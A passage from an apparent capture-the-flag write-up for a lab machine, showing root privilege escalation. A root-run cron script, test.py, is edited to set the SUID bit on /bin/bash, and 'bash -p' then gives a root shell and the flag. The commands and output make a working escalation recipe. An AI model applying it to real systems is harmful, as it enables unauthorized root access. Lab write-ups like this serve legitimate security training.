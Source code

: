 We know that the test.py script is run on a routine. We can use this to our advantage and have it run code for us. Nano'd test.py and added in the following script:
```bash
import os;
os.system("chmod +s /bin/bash")
```

For additional info about Setuid [Link](https://www.liquidweb.com/kb/how-do-i-set-up-setuid-setgid-and-sticky-bits-on-linux/)
This will set the SUID bit of /bin/bash and should allow us to run it as root (from any user account). Checked the status of /bin/bash over the course of the next few minutes, was able to successfully call /bin/bash as root:
```bash
scriptmanager@bashed:/$ ls -l /bin/bash
-rwsr-sr-x 1 root root 1037528 Jun 24  2016 /bin/bash
scriptmanager@bashed:/$ /bin/bash -p
bash-4.3# whoami
root
bash-4.3#
```

Ran a search for root.txt, cat'd it out and submitted:
```bash
bash-4.3# find /* -name 'root.txt'
/root/root.txt
bash-4.3# cat /root/root.txt
aaxxxxxxxxxxxxxxxxxxxxxxx
bash-4.3#
```
